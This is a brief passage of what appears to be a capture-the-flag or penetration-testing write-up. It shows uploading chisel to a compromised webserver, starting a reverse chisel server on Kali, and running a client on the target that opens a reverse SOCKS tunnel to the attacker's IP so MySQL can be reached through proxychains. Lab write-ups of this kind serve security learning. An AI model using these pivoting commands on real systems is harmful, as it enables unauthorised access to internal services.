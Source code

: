 - It connects to the mysql but no output:

![image16](../resources/e2c9710c490c434b96c1e1e51fa5e7c9.png)

- Upload chisel to the webserver

- On Kali:

```bash
./chisel server -p 8888 --reverse

```
- On target:

```bash
./chisel client 10.10.14.31:8888 R:socks

```
- Now run mysql command through proxychains

![image17](../resources/13d9cd2ba34a43878dd8b37e36440335.png)
